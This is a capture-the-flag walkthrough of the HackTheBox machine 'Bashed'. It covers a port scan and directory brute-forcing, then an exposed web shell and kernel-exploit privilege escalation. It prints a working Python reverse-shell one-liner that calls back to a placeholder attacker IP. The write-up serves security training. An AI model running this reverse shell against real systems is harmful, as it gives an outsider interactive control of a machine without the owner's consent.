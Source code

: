```yaml
---
title: "Bashed"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["bashed"]
---
```


## info

![infocard](media/bashedinfocard.png)

Bashed is an easy-level box where we exploit a vulnerable web shell to gain access and escalate privileges to root.

## Enumeration

### Nmap Scan

The first step in our attack is scanning the target using Nmap to identify open ports and running services.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-21 10:34 CET
  Nmap scan report for 10.10.10.68
  Host is up (0.073s latency).
  Not shown: 999 closed ports
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Arrexels Development Site

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 10.27 seconds
```
  
The scan reveals a web server running on port 80. Visiting the website, nothing interesting was found. Next, we use ffuf to enumerate directories

### Directory Enumeration

Since a web server is active, we use **ffuf** for directory brute-forcing to uncover hidden paths.

![ffuf](media/bashedffuf.png)

One interesting discovery is the **/dev** directory. Upon navigating to it, we find a file named **phpbash.php**—a web-based shell.

![dev](media/basheddev.png)

## Gaining Initial Access

### Web Shell Exploitation

![webshell](media/bashedwebshell.png)

Accessing `phpbash.php` provides us with an interactive web shell. However, to gain a more stable shell, we establish a **reverse shell** using Python.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Executing this command gives us a shell as the **www-data** user. Exploring the system, we identify two users: **scriptmanager** and **arrexel**. The user flag is found in arrexel’s home directory.

![user](media/basheduser.png)

## Privilege Escalation

### Exploiting Sudo Privileges

A quick privilege check reveals that the **scriptmanager** user has sudo permissions to execute commands. Switching to scriptmanager provides us with more privileges.

### Kernel Exploitation

Running `uname -a` reveals that the machine is using an **outdated Linux kernel (4.4)**. Researching known vulnerabilities for this version leads us to a **publicly available kernel exploit**. Since the target machine does not have a compiler, we compile the exploit on our attacker machine and transfer it to the target.

Executing the exploit successfully grants root access.

![root](media/bashedroot.png)

Upon execution, the exploit grants us **root access**.

## Conclusion

The **Bashed** machine demonstrates how misconfigured and exposed web shells can lead to full system compromise. We successfully leveraged:

- **Directory enumeration** to find a vulnerable web shell.
- **A reverse shell** to gain initial access.
- **Privilege escalation** via outdated kernel exploitation.

This challenge highlights the importance of securing web directories, restricting shell access, and keeping systems updated to prevent potential security threats. Always ensure web applications are configured securely and avoid exposing sensitive tools to the public.

Stay tuned for more CTF write-ups and ethical hacking techniques!

